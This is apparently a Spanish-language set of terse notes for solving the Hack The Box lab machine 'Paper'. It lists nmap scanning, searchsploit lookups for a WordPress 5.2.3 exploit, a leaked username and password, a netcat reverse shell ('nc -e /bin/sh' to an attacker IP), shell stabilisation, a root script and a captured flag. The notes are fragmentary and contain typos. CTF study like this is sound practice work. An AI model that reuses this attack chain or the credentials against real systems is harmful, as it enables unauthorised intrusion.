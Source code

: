 # maquina-Paper-HTB
Pasos para realizar la maquina paper de HTB

nmap -sCV -p22.80,443 10.10.11.143 -oN allports analysis
curl --head 10.10.11.143
sudo nano /etc/hosts
10.10.11.143	office.paper chat.office.paper
whappalyzer

searchsploit wordpress 5.2.3
searchsploit -p 47690
cat /usr/share/exploitdb/exploits/multiple/webapps/47690.md
office.paper?static=1
batman
H0l3$987$MunD0
file 
run id

nc -lvnp 6060
run nc -e /bin/sh 10.10.16.9 6060
whoami
hostname -I
script dev null -c bash
stty raw -echo; fg
reset 
xterm
export TERM=term
export SHELL=bash
clear


nano root.sh
cat root.sh
chmod +x 


-u= batman -p= p

bandera
2ffdd3e1385fe29479a44bca7cd518d2
